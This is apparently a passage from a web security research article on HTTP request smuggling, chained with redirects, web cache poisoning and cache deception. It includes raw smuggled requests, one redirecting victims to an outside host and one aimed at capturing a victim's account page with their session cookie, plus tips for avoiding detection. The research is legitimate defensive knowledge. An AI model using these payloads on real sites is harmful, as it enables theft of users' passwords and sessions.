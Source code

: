 Redirects that use the 307 code are particularly useful, as browsers that receive a 307 after issuing a POST request will resend the POST to the new destination. This may mean you can make unwitting victims send their plaintext passwords directly to your website.

Classic open redirects are quite common by themselves, but there's a variant which is endemic throughout the web as it stems from a default behaviour in both Apache and IIS. It's conveniently considered to be harmless and overlooked by pretty much everyone, as without an accompanying vulnerability like request smuggling it is indeed useless. If you try to access a folder without a trailing slash, the server will respond with a redirect to append the slash, using the hostname from the host header:

```
POST /etc/libs/xyz.js HTTP/1.1Host: redactedContent-Length: 57Transfer-Encoding: chunked0POST /etc HTTP/1.1Host: burpcollaborator.netX: XGET /etc/libs/xyz.js HTTP/1.1HTTP/1.1 301 Moved PermanentlyLocation: https://burpcollaborator.net/etc/ 
```

When using this technique, keep a close eye on the protocol used in the redirect. You may be able to influence it using a header like X-Forwarded-SSL. If it's stuck on HTTP, and you're attacking a HTTPS site, the victim's browser will block the connection thanks to its mixed-content protection. There are [two known exceptions](https://portswigger.net/blog/practical-web-cache-poisoning#hiddenroutepoisoning) to this - Internet Explorer's mixed-content protection can be completely bypassed, and Safari will auto-upgrade the connection to HTTPS if the redirection target is in its HSTS cache.

### Web Cache Poisoning

A few hours after trying some redirect-based attacks on a particular website, I opened their homepage in a browser to look for more attack surface and spotted the following error in the dev console:

![https://52.16.21.24/  net::ERR_CERT_COMMON_NAME_INVALID](https://portswigger.net/cms/images/8c/4d/6e6e5f9934f4-article-sslerror.png)

This error occurred regardless of which machine I loaded the website from, and the IP address looked awfully familiar. During my redirect probe, someone else's request for an image file had slipped in before my victim request and the poisoned response had been saved by the cache.

This was a great demonstration of the potential impact, but overall not an ideal outcome. Aside from relying on timeout-based detection, there's no way to fully eliminate the possibility of accidental cache poisoning. That said, to minimise the risk you can:

\- Ensure the 'victim' requests have a cachebuster.
\- Send the 'victim' requests as fast as possible, using Turbo Intruder.
\- Try to craft a prefix that triggers a response with anti-caching headers, or a status code that's unlikely to be cached.
\- Target a front-end in a geographic region that's asleep.

### Web Cache Deception++

What if instead of trying to mitigate the chance of attacker/user hybrid responses getting cached, we embrace it?

Instead of using a prefix designed to cause a harmful response, we could try to fetch a response containing sensitive information, with our victim's cookies:

```
POST / HTTP/1.1Transfer-Encoding: blah0GET /account/settings HTTP/1.1X: XGET /static/site.js HTTP/1.1Cookie: sessionid=xyz
```
